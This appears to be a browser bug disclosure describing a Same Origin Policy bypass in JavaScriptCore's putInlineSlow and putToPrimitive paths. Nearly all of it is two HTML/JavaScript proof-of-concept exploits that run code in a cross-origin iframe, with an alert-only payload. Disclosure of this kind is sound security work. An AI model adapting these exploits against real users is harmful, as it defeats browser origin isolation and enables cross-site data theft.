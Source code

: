JSObject::putInlineSlow and JSValue::putToPrimitive use getPrototypeDirect instead of getPrototype to get an object's prototype. So JSDOMWindow::getPrototype which checks the Same Origin Policy is not called.

The PoC shows to call a setter of another origin's object.

PoC 1 - JSValue::putToPrimitive:
```
<body>
<script>

let f = document.body.appendChild(document.createElement('iframe'));
let loc = f.contentWindow.location;
f.onload = () => {
    let a = 1.2;
    a.__proto__.__proto__ = f.contentWindow;

    a['test'] = {toString: function () {
        arguments.callee.caller.constructor('alert(location)')();
    }};
};
f.src = 'data:text/html,' + `<iframe></iframe><script>
Object.prototype.__defineSetter__('test', v => {
    'a' + v;
});

</scrip` + `t>`;

</script>
</body>
```

PoC 2 - JSObject::putInlineSlow:
```
<body>
<script>

let f = document.body.appendChild(document.createElement('iframe'));
let loc = f.contentWindow.location;
f.onload = () => {
    let a = {
        __proto__: f.contentWindow
    };

    a['test'] = {toString: function () {
        arguments.callee.caller.constructor('alert(location)')();
    }};
};
f.src = 'data:text/html,' + `<iframe></iframe><script>
Object.prototype.__defineSetter__('test', v => {
    'a' + v;
});

</scrip` + `t>`;
</script>
</body>
```
